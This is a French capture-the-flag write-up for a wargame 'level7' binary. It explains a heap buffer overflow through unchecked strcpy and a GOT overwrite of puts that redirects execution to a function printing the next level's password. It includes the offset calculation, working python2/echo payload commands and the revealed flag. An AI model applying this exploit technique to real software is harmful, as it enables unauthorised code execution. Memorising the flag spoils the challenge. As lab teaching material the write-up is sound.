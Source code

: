 # LEVEL 7

## Intro

Le programme alloue deux petites structures sur le tas. Chaque structure contient un entier et un pointeur vers un tampon de 8 octets. Les arguments passés en ligne de commande sont copiés dans ces tampons avec `strcpy` sans contrôle de taille, ce qui permet un dépassement de tampon sur le tas.

La fonction `m()` (adresse `0x080484f4`) n'est jamais appelée dans `main`. Elle affiche la chaîne globale `c` – remplie avec le contenu du fichier `/home/user/level8/.pass` – suivie de l'heure courante :

```c
void m(void *param_1, int param_2, char *param_3, int param_4, int param_5)
{
    time_t tVar1;
    tVar1 = time(NULL);
    printf("%s - %d\n", c, tVar1);
}
```

`main` termine simplement par un `puts("~~")`. En modifiant l'entrée GOT de `puts`, située à `0x08049928`, on peut détourner cet appel afin qu'il exécute `m()` et révèle ainsi le flag.

---

## Calcul de l'offset pour l'overflow

Le code réserve quatre chunks successifs de 8 octets chacun : deux pour les entiers + pointeurs (`puVar1` et `puVar3`), et deux pour les tampons de données. En mémoire, cela donne :

```
[ header A | data A (8) ]   ← puVar1
[ header B | data B (8) ]   ← puVar1[1]
[ header C | data C (8) ]   ← puVar3
[ header D | data D (8) ]   ← puVar3[1]
```

Pour atteindre et réécrire **`puVar3[1]`** (stocké dans `data C` à l’offset 4), il faut franchir :

1. **8 octets** : remplissage complet de `data B` (zone utilisateur du chunk B)
2. **8 octets** : en-tête du chunk C (métadonnées `malloc`)
3. **4 octets** : position de `puVar3[1]` dans la zone `data C`

> **Offset total = 8 + 8 + 4 = 20 octets**

Vérification rapide :

```bash
# extrait les 4 octets écrasés (offset 20)
dd if=payload1 bs=1 skip=20 count=4 2>/dev/null | hexdump -C
```

---

## GOT (Global Offset Table)

Lorsqu’un binaire appelle une fonction externe (comme `puts`), il passe d’abord par la **PLT** (Procedure Linkage Table), qui effectue un saut vers l’adresse stockée dans la **GOT** (Global Offset Table).

* **GOT\[puts]** contient l’adresse effective de `puts` dans la libc.
* En écrasant cette case GOT (via le second `strcpy`), on peut rediriger tous les appels à `puts` vers **n'importe quelle** fonction.

### Pourquoi viser l'entrée GOT de `puts` ?

Le code appelle `puts("~~")` en fin de `main`. En réécrivant l’entrée GOT de `puts` pour qu’elle contienne l’adresse de `m()`, cet appel exécutera `m()` et affichera la variable globale `c` (le flag).

On récupère l’adresse de l’entrée GOT de `puts` par :

```bash
objdump -d level7 | grep -A1 '<puts@plt>'
#    jmp   *0x08049928     ← adresse GOT de puts
```

---

## Payload

1. **`argv[1]`** : Overflow de **20 octets** + adresse GOT de `puts` (`0x08049928`) en little-endian.
2. **`argv[2]`** : Adresse de `m` (`0x080484f4`) en little-endian. Cette valeur sera copiée dans GOT\[puts] par le second `strcpy`.
3. Lorsque `puts("~~")` est appelé, c’est en réalité `m()` qui s’exécute et affiche la variable `c`.

### Commandes

```bash
cd /tmp

# 1) Overflow : écraser puVar3[1] → entrée GOT de puts
echo -ne "$(python2 -c 'print "A"*20 + "\x28\x99\x04\x08"')" > payload1

# 2) Script pour l'adresse de m()
echo -ne "$(python2 -c 'print "\xf4\x84\x04\x08"')" > payload2

# 3) Exécution de l'exploit
./level7 $(cat payload1) $(cat payload2)
```

L’exécution affiche alors le contenu de `c`, c’est-à-dire le flag :

```bash
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```
